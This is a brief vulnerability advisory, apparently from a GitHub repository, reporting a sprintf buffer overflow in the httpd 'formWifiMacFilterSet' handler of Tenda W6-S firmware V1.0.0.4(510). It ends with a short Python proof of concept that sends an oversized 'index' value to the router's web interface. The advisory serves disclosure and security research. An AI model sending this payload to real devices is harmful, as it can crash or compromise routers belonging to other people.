# buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formWifiMacFilterSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](4.png)

get value from index, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/WifiMacFilterSet"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'index': payload})
``` 
